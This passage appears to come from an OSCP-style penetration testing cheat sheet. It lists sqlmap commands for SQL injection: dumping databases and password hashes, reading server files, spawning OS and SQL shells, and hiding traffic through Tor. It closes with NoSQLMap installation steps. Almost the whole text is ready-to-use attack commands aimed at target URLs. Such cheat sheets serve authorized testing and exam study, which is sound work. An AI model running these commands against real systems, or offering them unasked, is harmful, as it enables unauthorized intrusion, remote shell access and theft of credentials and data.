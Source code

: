           `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php"`
             
        - Targeted sqlmap scan
        
           `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`
             
         - Scan url for union + error based injection with mysql backend and use a random user agent + database dump  
         
            `sqlmap -o -u http://$ip/index.php --forms --dbs  `
               
            `sqlmap -o -u "http://$ip/form/" --forms`
                
          - Sqlmap check form for injection  
          
             `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`
                 
           - Enumerate databases  
           
              `sqlmap --dbms=mysql -u "$URL" --dbs`
                
            - Enumerate tables from a specific database  
                  
              `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  `
                  
            - Dump table data from a specific database and table  
            
               `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump `
                   
            - Specify parameter to exploit  
             
               `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2 `
                    
            - Specify parameter to exploit in 'nice' URIs (exploits param1)
             
                `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs `
                     
            - Get OS shell  
              
                 `sqlmap --dbms=mysql -u "$URL" --os-shell`
                       
            - Get SQL shell  
                       
                 `sqlmap --dbms=mysql -u "$URL" --sql-shell`
                        
             - SQL query  
                
                `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"` 
                         
             - Use Tor Socks5 proxy  
                 
                `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`
       
       
-   **NoSQLMap Examples**
       You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration. 
       
  -   NoSQLMap Installation 
   
        ```bash
        git clone https://github.com/codingo/NoSQLMap.git
        cd NoSQLMap/
        ls
        pip install couchdb
        pip install pbkdf2
        pip install ipcalc
        python nosqlmap.py
        ```
